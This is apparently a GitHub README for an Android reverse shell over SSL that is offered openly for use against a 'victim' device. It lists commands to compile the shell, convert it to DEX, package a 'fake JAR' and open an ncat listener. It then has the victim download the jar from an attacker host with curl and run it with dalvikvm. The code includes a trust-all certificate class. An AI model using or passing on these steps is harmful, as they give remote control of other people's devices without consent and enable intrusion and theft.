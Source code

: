 ## Android Reverse Java Shell using SSL Encryption

## On Attacker machine - Linux for example -
### (you need android sdk installed and build-tools also) 

#### Compile Java source code in bytecode (if fails for "class error not supported", change the release!)
`javac --release 17 Shell.java TrustAllCertificates.java`

#### Convert to DEX format 
`~/Library/Android/sdk/build-tools/33.0.0/d8 Shell.class TrustAllCertificates.class`

#### Create fake JAR file
`zip reverse_ssl.jar classes.dex`

#### Set Listener (USE NCAT!)
`ncat -nlvp 1337`

## On victim Android device:
`adb push reverse_ssl.jar /sdcard` (if Android Debug Tools is enabled)

or you can just use dalvikvm from Termux:

`curl http://attackingmachine:9999/reverse_ssl.jar -o /sdcard/reverse_ssl.jar`<br/>
`cd /system/bin/ && ./dalvikvm -cp /sdcard/reverse_ssl.jar Shell`

(pay attention to final "Shell" this must be same class name used before, otherwise it fails!)

You can of course create a pure .apk package and sign it using Android Studio or apktool and apksigner.

## Credits

Inspired from: https://gist.github.com/FrankSpierings/e330e3aea3152f816c202b883887dd60
